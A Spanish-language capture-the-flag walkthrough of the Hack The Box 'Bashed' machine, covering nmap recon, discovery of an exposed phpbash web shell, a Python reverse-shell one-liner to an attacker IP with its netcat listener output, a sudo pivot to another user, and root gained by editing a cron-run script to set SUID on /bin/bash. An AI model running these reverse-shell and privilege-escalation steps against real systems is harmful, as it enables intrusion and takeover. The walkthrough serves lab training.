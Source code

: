```yaml
---
title: Hack The Box Bashed
author: k4miyo
date: 2022-01-02
math: true
mermaid: true
image:
  path: /assets/images/htb/hackthebox.png
categories: [Easy, Linux]
tags: [File Misconfiguration, Web]
ping: true
---
```


## Bashed
Se procede con la fase de reconocimiento lanzando primeramente un `ping` a la dirección IP 10.10.10.68.

```bash
❯ ping -c 1 10.10.10.68
PING 10.10.10.68 (10.10.10.68) 56(84) bytes of data.
64 bytes from 10.10.10.68: icmp_seq=1 ttl=63 time=143 ms

--- 10.10.10.68 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 142.530/142.530/142.530/0.000 ms
```

De acuerdo con el TTL de traza ICMP, se puede determinar que se trata de una máquina con sistema operativo Linux. A continuación se procede con la ejecución de `nmap` para determinar los puertos abiertos de la máquina y exportanto la información al archivo **allPorts**.

```bash
❯ nmap -p- --open -T5 -v -n 10.10.10.68 -oG allPorts
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-02 18:34 CST
Initiating Ping Scan at 18:34
Scanning 10.10.10.68 [4 ports]
Completed Ping Scan at 18:34, 0.17s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 18:34
Scanning 10.10.10.68 [65535 ports]
Discovered open port 80/tcp on 10.10.10.68
SYN Stealth Scan Timing: About 43.17% done; ETC: 18:35 (0:00:41 remaining)
Completed SYN Stealth Scan at 18:35, 64.60s elapsed (65535 total ports)
Nmap scan report for 10.10.10.68
Host is up (0.20s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 64.95 seconds
           Raw packets sent: 67158 (2.955MB) | Rcvd: 67155 (2.686MB)
```

Mediante la función [extractPorts](/posts/extractPorts) definida a nivel de `zsh` , se obtiene la información más relevante de la captura grepeable.

```bash
❯ extractPorts allPorts
───────┬─────────────────────────────────────
       │ File: extractPorts.tmp
───────┼─────────────────────────────────────
   1   │ 
   2   │ [*] Extracting information...
   3   │ 
   4   │     [*] IP Address: 10.10.10.68
   5   │     [*] Open ports: 80
   6   │ 
   7   │ [*] Ports copied to clipboard
```

A continuación se lanza una serie de scripts para determinar el servicio y versión que corren para los puertos detectados.

```bash
❯ nmap -sCV -p80 10.10.10.68 -oN targeted
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-02 18:44 CST
Nmap scan report for 10.10.10.68
Host is up (0.14s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.89 seconds
```

Tenemos sólo el puerto 80 abierto, así que como siempre, antes de ver el contenido vía web, vamos a ocupar la herramienta `whatweb`:

```bash
❯ whatweb http://10.10.10.68/
http://10.10.10.68/ [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.68], JQuery, Meta-Author[Colorlib], Script[text/javascript], Title[Arrexel's Development Site]
```

Por el momento no vemos nada interesante, así que ahora si vamos a ver el contenido vía web.

![""](/assets/images/htb-bashed/bashed-web.png)

Analizando un poco el sitio web, vemos que cuenta con un recurso llamado `single.html` en el cual nos hablando de ***phpbash*** y nos dan la pista que se encuentra en el servidor.

![""](/assets/images/htb-bashed/bashed-web1.png)

Antes de tirar con herramientas tochas, vamos a tratar de descubrir rutas en el servidor mediante `nmap`:

```bash
❯ nmap --script http-enum -p80 10.10.10.68 -oN webScan
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-02 18:45 CST
Nmap scan report for 10.10.10.68
Host is up (0.14s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /dev/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /php/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|_  /uploads/: Potentially interesting folder

Nmap done: 1 IP address (1 host up) scanned in 13.90 seconds
```

Aqui ya vemos varios recursos que nos pueden llamadar la atención y empezaremos con `/dev/` y nos encontramos el proyecto del que nos hablan ***phpbash***:

![""](/assets/images/htb-bashed/bashed-web2.png)

![""](/assets/images/htb-bashed/bashed-web3.png)

Vemos que podemos ejecutar comandos a nivel de sistema; tanto en `phpbash.min.php` como en `phpbash.php`. Podriamos pensar que con dicha herramienta ya tenemos ejecución de comandos y podemos entablarnos una reverse shell, y es correcto. Para este caso, validamos primero que cuente con python y posteriormente nos pusimos en escucha por el puerto 443 y mandamos una reverse shell.

![""](/assets/images/htb-bashed/bashed-web4.png)

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.27",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.68] 57542
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```

Como siempre y para trabajar maś cómodos, vamos a hacer un [Tratamiento de la tty](/posts/tratamiento-tty). Ya nos encontramos dentro de la máquina como el usuario **www-data** y podemos visualizar la flag (user.txt). Vamos a enumerar un poco el sistema para ver de que forma podemos escalar privilegios.

```bash
www-data@bashed:/home/arrexel$ id 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@bashed:/home/arrexel$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
www-data@bashed:/home/arrexel$
```

Y vemos que podemos ejecutar cualquier comando como el usuario **scriptmanager**; asi que podemos migrar fácilmente a dicho usuario:

```bash
www-data@bashed:/home/arrexel$ sudo -u scriptmanager bash
scriptmanager@bashed:/home/arrexel$ whoami
scriptmanager
scriptmanager@bashed:/home/arrexel$
```

Ya como el usuario **scriptmanager** podemos intuir que deben existir recursos asociados a dicho usuario, así que realizaremos una búsqueda.

```bash
scriptmanager@bashed:/$ find \-user scriptmanager 2>/dev/null | grep -v "proc"
./scripts
./scripts/test.py
./home/scriptmanager
./home/scriptmanager/.profile
./home/scriptmanager/.bashrc
./home/scriptmanager/.nano
./home/scriptmanager/.bash_history
./home/scriptmanager/.bash_logout
scriptmanager@bashed:/$
```

Tenemos un script en python bajo la ruta `/scripts`, así que vamos a echarle un ojito.

```bash
scriptmanager@bashed:/$ cd scripts/
scriptmanager@bashed:/scripts$ ls -l
total 8
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec  4  2017 test.py
-rw-r--r-- 1 root          root          12 Jan  2 17:24 test.txt
scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ cat test.txt
testing 123!scriptmanager@bashed:/scripts$ cat test.txt; echo
testing 123!
scriptmanager@bashed:/scripts$
```

A este punto ya debemos estar pensando que se debe ejecutar una tarea a intervalos regulares y que posiblemente **root** ejecutar el script, ya que el resultado es un archivo llamado `test.txt` cuyo propietario es **root**. Para validarlo, podemos crear nuestro archivo de confianza [ProcMon](/posts/procmon) en una ruta donde tengamos privilegios `/dev/shm`.

```bash
scriptmanager@bashed:/dev/shm$ ./procmon.sh 
> /usr/sbin/CRON -f
> /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
> [python] <defunct>
< /usr/sbin/CRON -f
< /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
< [python] <defunct>
^C
scriptmanager@bashed:/dev/shm$
```

Por lo tanto, como tenemos permisos de escrita para el archivo `test.py`, vamos a modificarlo para dar permisos SUID a `/bin/bash`.

```python
import os

os.system("chmod 4755 /bin/bash")
```

Ahora esperamos a que **root** nos ejecute el script y podamos ejecutar `bash -p` para ganar acceso como dicho dicho usuario.

```bash
scriptmanager@bashed:/scripts$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1037528 Jun 24  2016 /bin/bash
scriptmanager@bashed:/scripts$ bash -p
bash-4.3# whoami
root
bash-4.3# 
```

Ya somos el usuario **root** y podemos visualizar la flag (root.txt). Se comparte autopwn de la máquina [Bashed_Autopwn](https://github.com/k4miyo/Bashed-Autopwn)
